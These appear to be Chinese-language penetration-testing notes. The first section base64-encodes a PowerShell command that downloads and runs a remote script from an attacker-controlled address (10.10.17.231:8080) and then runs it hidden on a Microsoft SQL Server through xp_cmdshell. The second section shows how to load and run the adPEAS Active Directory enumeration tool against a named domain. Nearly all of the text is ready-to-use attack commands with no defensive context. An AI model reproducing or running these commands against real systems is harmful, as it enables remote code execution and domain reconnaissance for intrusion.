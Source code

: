 # 加密的mssql命令
使用powershell encode上面的字符串

```
PS C:\Users\max> $str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.17.231:8080/w1"))'
PS C:\Users\max> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgAxADcALgAyADMAMQA6ADgAMAA4ADAALwB3ADEAIgApACkA
```

使用上面的加密串在msqll server执行下面的命令

格式：
```
EXEC xp_cmdshell 'powershell -w hidden -enc <这里是加密命令>
```


# adPEAS

## 引入
```
powershell-import tools/adPEAS/adPEAS.ps1
```
或者
```
. .\adPEAS.ps1
```

或者
```
Import-Module .\adPEAS.ps1
```

## 执行
```
Invoke-adPEAS
```

```
Invoke-adPEAS -Domain 'm3c.local' -Outputfile 'C:\ActiveMQ\m3c_adPEAS_outputfile' 
```